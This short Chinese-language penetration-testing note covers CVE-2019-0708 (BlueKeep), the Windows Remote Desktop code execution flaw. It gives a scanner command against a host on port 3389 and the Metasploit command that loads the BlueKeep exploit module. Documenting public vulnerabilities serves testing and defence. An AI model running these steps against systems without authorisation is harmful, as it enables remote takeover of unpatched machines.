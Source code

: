 远程桌面服务远程执行代码漏洞。

## 1 漏洞检测

使用 RDP 漏洞无损扫描器 [0708detector.exe](https://github.com/Pa55w0rd/CVE-2019-0708?tab=readme-ov-file#cve-2019-0708-批量检测) 对目标进行漏洞检测

```shell
PS D:\downloads\CVE-2019-0708-master> .\0708detector.exe -t example.com -p 3389
```

![使用 RDP 漏洞无损扫描器对目标进行漏洞检测](./../../../../images/CVE-2019-0708/%E4%BD%BF%E7%94%A8%20RDP%20%E6%BC%8F%E6%B4%9E%E6%97%A0%E6%8D%9F%E6%89%AB%E6%8F%8F%E5%99%A8%E5%AF%B9%E7%9B%AE%E6%A0%87%E8%BF%9B%E8%A1%8C%E6%BC%8F%E6%B4%9E%E6%A3%80%E6%B5%8B.png)

## 2 漏洞利用

使用 Metasploit-Framework 的 Exploit `windows/rdp/cve_2019_0708_bluekeep_rce` 进行漏洞利用

```shell
msf6 > use exploit windows/rdp/cve_2019_0708_bluekeep_rce
```

![使用 Metasploit-Framework 进行漏洞利用](./../../../../images/CVE-2019-0708/%E4%BD%BF%E7%94%A8%20Metasploit-Framework%20%E8%BF%9B%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8.png)

---

Refrences

- [CVE-2019-0708](https://www.cve.org/CVERecord?id=CVE-2019-0708)
